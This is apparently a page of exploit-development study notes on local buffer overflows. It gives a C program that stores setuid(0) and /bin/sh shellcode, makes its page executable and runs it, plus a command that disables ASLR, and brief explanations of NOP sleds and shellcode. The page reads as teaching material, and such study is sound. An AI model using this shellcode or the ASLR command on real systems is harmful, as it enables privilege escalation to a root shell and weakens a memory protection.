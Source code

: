 ## Local buffer overflow exploits

```text
#include <stdio.h>
#include <sys/mman.h>

const char shellcode[] =  //setuid(0) & Aleph1's famous shellcode, see ref.
"\x31\xc0\x31\xdb\xb0\x17\xcd\x80"      //setuid(0) first
"\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b"
"\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd"
"\x80\xe8\xdc\xff\xff\xff/bin/sh";

int main() { //main function

    //The shellcode is on the .data segment,
    //we will use mprotect to make the page executable.
    mprotect(
        (void *)((int)shellcode & ~4095),
        4096,
        PROT_READ | PROT_WRITE | PROT_EXEC
    );

    //Convert the address of the shellcode variable to a function pointer,
    //allowing us to call it and execute the code.
    int (*ret)() = (int(*)())shellcode;
    return ret();
}
```

## ASLR

Address space layout randomisation (ASLR) works by randomizing the locations of different sections of the program in memory, including the executable base, stack, heap, and libraries, making it difficult for an attacker to reliably jump to a specific memory address. To disable ***ASLR***:

    $ echo 0 | sudo tee /proc/sys/kernel/randomize_va_space

## NOP sled

The NOP (no operation) command simply means to do nothing but move to the next command. Hackers have learnt to use NOP for padding. When placed at the front of an exploit buffer, this padding is called a NOP sled. If the EIP is pointed to a NOP sled, the processor will ride the sled right into the next component. On x86 systems, the `0x90` opcode is the most commonly used NOP. Any operation sequence that does not interfere with the exploit’s outcome would be considered equivalent to a NOP.

## Shellcode

Shellcode is a string of binary opcodes for the exploited architecture (Intel x86 32 bit, Intel x86 64 bit, etc), often represented in hexadecimal form. There are tons of shellcode libraries online, for all platforms.

